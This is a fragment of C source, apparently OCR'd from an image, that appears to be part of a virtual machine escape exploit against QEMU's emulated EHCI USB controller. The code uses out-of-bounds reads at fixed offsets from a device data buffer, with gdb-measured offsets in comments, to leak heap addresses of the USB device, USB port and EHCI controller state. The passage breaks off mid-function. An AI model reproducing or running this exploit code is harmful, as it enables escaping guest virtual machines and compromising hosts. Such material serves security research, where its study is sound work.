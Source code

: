 ```c
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,size,QTD_TOKEN_TBYTES);
	
	run_hci();//befor cpy
	memcpy(buf,data_buf,size);
	kfree(ptr);
	return 0;
}


static uint64_t get_usbdevice_addr(void)
{
	/*
	 function:do_token_in
	(gdb) print (int)&s->ep_ctl.dev - (int)s->data_buf 
		$16 = 4132
	 * */
	uint64_t addr = 0;
	
	read_data(4132,(uint8_t*)&addr,8);

	return addr;
}

static uint64_t get_usbdevice_data_buf_addr(void)
{
	/*
	function:do_token_in
	(gdb) p (int)s->data_buf - (int)s
	$4 = 228
	*/
	uint64_t addr = get_usbdevice_addr();
	
	return addr + 228;
}

static uint64_t get_usbport_addr(void)
{
	/*
	 function:do_token_in
	 (gdb) print (int)&s->port - (int)s->data_buf 
		$15 = -100
	 * */
	uint64_t addr = 0;
	
	read_data(-100,(uint8_t*)&addr,8);

	return addr;
}

static uint64_t get_ehcistate_addr(void)
{
	/*function:ehci_advance_state
	(gdb) print (int)ehci->ports - (int)ehci
		$4 = 1344
	(gdb) print sizeof(ehci->ports[1])
		$5 = 72 
	*/
	uint64_t addr = 0;
	addr = get_usbport_addr();
	addr = addr - (1344 + 72 * (port_idx-1));

```